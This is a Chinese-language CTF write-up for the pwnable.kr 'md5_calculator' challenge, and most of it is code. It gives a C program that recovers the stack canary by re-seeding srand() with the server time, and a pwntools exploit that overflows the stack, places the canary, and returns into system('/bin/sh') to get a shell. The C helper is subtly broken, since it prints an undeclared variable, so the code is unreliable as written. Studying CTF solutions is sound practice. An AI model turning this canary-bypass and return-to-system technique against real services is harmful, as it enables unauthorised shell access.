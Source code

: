```yaml
---
title: pwnable md5_calculator
date: 2017-04-23 22:36:29
tags:
- pwnable
- stack_canary
categories:
- pwnable.kr
---
```


这题一个栈溢出，canary的值可以逆向得到。
这题的关键是得到scrand的参数种子，即服务器上的时间戳。好像也只能先获取服务器时间，然后把本机时间通过date命令设置成与服务器同步(其实是伪同步，可以成功)。获取服务器时间不难，可以通过ssh登录，然后从服务器发送时间到本机。然后通过os.system('date -s "time"')设置即可。不过这是我从网上看的，自己没实践。
得到canary代码：
<!-- more -->
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    int time = atoi(argv[1]);
    int cap = atoi(argv[2]);
    srand(time);
    int i;
    int rands[8];
    for(i = 0; i <= 7; i++)
    {
        rands[i] = rand();
    }
    int rs = rands[1] + rands[2]- rands[3] + \
    rands[4] + rands[5] - rands[6] + rands[7];
    cap -= rs;
    printf("%d",m);
    return 0;
}
```

然后exploit的相关脚本：
```python
from pwn import *
import base64
import time
import os

debug = 1
if debug:
    p = process('./hash')
else:
    p = remote('pwnable.kr', 9001)

p.recvuntil("Are you human? input captcha : ")
s = p.recvuntil("\n")
cap = int(s, 10)
print "cap: " + hex(cap)
p.send(s)

time = time.time()
print "time: " + str(time)
p.recvuntil("Encode your data with BASE64 then paste me!\n")
canary = os.popen('./md5-canary {} {}'.format(str(time), cap)).read()
canary = int(canary)
print "canary: " + hex(canary)

payload = 'a' * 0x200 + p32(canary) + 'a' * 0xc
payload += p32(0x08048880)
binsh = 0x0804B0E0 + 540 * 4/3 + 0x10
payload += p32(0xdeadbeef) + p32(binsh)
print len(payload)
gdb.attach(p)
p.sendline(b64e(payload) + "\x00" * 0x10 + '/bin/sh\x00')

p.interactive()
```
远程拿不到shell因为时间同步问题。那个设置伪同步的代码可以参考[这里](https://etenal.me/archives/972#C20)

